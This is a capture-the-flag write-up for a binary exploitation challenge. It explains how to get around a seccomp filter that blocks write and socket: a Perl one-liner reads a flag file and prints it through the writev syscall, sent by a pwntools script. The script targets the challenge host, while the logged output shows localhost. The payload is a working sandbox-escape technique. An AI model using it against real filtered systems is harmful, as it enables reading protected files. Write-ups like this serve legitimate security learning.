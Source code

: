 # Midnight Flag CTF 2025 : Blind Test (pwn)

## Information gathering

This challenge is a binary exploitation challenge. We have full access of the source code, as well as a local testing environment.

The code is straight forward, it first sets up a seccomp that prohibits the use of syscalls `write` and `socket` and allows everything else.

```c
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(write), 0);
    seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(socket), 0);
```

We can also extract the seccomp using [`seccomp-tools`](https://github.com/david942j/seccomp-tools/) which gives us :

```text
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x06 0xc000003e  if (A != ARCH_X86_64) goto 0008
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x03 0xffffffff  if (A != 0xffffffff) goto 0008
 0005: 0x15 0x02 0x00 0x00000001  if (A == write) goto 0008
 0006: 0x15 0x01 0x00 0x00000029  if (A == socket) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x06 0x00 0x00 0x00000000  return KILL
```

Then it takes an 3000 characters long input and calls `system` function with that.

## Exploitation

As expected, whenever we send a command, we get nothing back. Looking at the different `syscall`, there are a few that could performs the same task as `write` such as :
- `pwrite64` - write to a file descriptor at a given offset
- `writev` - write data into multiple buffers

We could use the first to write malicious code onto the filesystem and then execute it. But `writev` seems a lot easier because remember all we need is the flag.

So our plan is now clear :
- open the flag and get the file descriptor
- read the flag
- use `writev` to execute it

However, the executions is not. We need something that allows to do all of the above that is already installed on the debian container. And after, spending a bit of time looking around, I found that perl is installed and perl does allows us to make syscalls using well `syscall`. As I'm not good in perl and time is of essence, I asked ChatGPT to do it for me and here's the payload that I got :

```pl
open my $fh, "<", "./flag.txt";
my $file_content = do {local $/; <$fh>};
my @buffers = ($file_content, "\n");
my $iovec = pack("L!L!L!L!L!L!",
    map { 
        my $str = $_;
        my $ptr = unpack("L!", pack("P", $str));
        my $len = length($str);
        ($ptr, $len)
    } @buffers
);
my $fd = fileno(STDOUT);
my $ret = syscall(20, $fd, $iovec, scalar(@buffers));
```

And the python script to send it automatically while getting rid of line returns :

```py
from pwn import *

r = remote("chall4.midnightflag.fr", 14970)
context.log_level = 'INFO'
with open('payload.pl', 'r') as f :
    payload = f.read().strip().replace('\n', '')
    cmd = f"perl -e '{payload}'"
    r.sendline(cmd)
print(r.recv(timeout=1))
```

And voilà ! we run it and get the flag,
```text
$ py solve.py 
[+] Opening connection to localhost on port 4444: Done
/home/ravaka/ctf/midnight-2025/pwn/blindtest/solve.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  r.sendline(cmd)
b'MCTF{kIll3d_3xFi}\n\n'
[*] Closed connection to localhost port 4444
```
